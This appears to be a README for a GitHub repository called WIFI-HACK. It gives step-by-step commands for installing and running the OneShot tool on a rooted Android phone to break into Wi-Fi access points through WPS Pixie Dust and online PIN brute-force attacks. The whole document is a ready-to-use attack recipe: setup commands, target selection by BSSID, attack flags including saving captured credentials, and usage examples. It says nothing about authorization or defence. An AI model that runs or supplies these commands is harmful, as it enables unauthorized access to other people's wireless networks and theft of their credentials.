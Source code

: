 # Setup
```
pkg update && pkg upgrade -y
```
```
pkg install git -y
```
```
pkg install python -y
```
```
git clone https://github.com/ALAMIN-2K07/WIFI-HACK
```
```
cd WIFI-HACK
```
```
ls
```
```
chmod +x oneshot.py
```
```
ls
```
```
bash installer.sh
```
```
cd WIFI-HACK
```
```
ls
```
```
sudo python oneshot.py -i wlan0 -K
```

## [Brute Force]
```
cd WIFI-HACK
```
```
ls
```
```
sudo python oneshot.py -i wlan0 -K
```
Now we will copy the BSSID, which will look a bit like a MAC address. Example: B4:0F:3B:57:F0:90 -B

Then we will press Ctrl + C, which will close the tool.

Then we will move to the home directory with the ```cd``` command.
```
cd WIFI-HACK
```
```
sudo python oneshot.py -i wlan0 -b (BSSID) -B
```

## [What is needed]
Mobile must be rooted.

need to flash the Busy Box module in the magisk app.
[BusyBox](https://downloads.sourceforge.net/project/magiskfiles/module-uploads/busybox-ndk-13016.zip?ts=gAAAAABoUawiHNA0RcCUZkQCmzFX1VHF8eXVr8-mDAw0nSBMpqcEjeIdA5op6ADzSTF99N89Qbu0w5JOghLJU-hm68MYOX3P7w%3D%3D&use_mirror=netix&r=https%3A%2F%2Fmagiskmodule.gitlab.io%2F)

When giving the last command, you need to turn off WiFi and data connection and turn on hotspot.

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 oneshot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running OneShot with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
